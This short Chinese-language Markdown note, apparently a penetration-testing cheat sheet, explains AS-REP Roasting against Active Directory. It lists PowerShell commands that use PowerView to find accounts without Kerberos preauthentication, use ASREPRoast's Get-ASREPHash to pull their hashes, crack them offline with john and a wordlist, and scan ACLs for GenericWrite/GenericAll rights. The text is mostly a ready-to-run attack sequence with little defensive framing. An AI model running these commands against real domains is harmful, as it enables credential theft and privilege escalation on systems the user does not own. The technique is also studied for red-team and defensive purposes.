 # AS-REP Roasting攻击

AS-REP Roasting攻击的原理就是通过获取不需要kerberos身份验证的高权限账户，获取器hash值，进行爆破。这个爆破是依靠字典的，限制较多，不是很好用，首先控制一台域内的机器，然后获取powershell的权限。

[ASREPRoast工具](https://github.com/gold1029/ASREPRoast)

```powershell
# 获取不需要kerberos身份验证的高权限账户
. .\PowerView_dev.ps1
Get-DomainUser -PreauthNotRequired -Verbose
Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose   # 获取用户名

# 获取hash
. .\ASREPRoast\ASREPRoast.ps1
Get-ASREPHash -UserName 用户名 -Verbose

# 使用john破解密码
./john vpnxuser.txt --wordlist=wordlist.txt
```

```powershell
# 列举那些studentx拥有GenericWrite或GenericAll权限的用户
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}

```

